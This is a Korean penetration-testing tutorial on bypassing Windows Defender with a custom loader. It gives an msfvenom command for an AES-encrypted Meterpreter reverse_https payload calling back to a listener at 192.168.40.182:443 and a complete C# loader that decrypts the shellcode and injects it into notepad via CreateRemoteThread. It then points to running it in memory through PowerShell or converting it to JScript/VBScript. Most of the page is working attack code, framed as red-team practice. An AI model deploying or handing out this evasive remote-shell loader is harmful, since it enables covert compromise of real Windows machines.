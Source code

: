# 간단 디펜더 우회

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.&#x20;

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.&#x20;

### 쉘코드&#x20;

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.&#x20;

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.&#x20;

### 커스텀 로더 (Loader)&#x20;

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.&#x20;

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.&#x20;

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](프로세스-인젝션/createremotethread.md)에서 서술했다.&#x20;

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.&#x20;

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 지난 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

![https://www.virustotal.com/gui/file/2c23e1512d8e928202237d86f98145f30d544e78f1ed756a497d3482a4ffa262/detection](<../.gitbook/assets/image (15).png>)



최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신의 디펜더는 우회하는 모습을 볼 수 있다.&#x20;

![](../.gitbook/assets/custom-loader.gif)

C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../실행/파워쉘/시샵-실행.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../초기침투/피싱-첨부파일/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.&#x20;
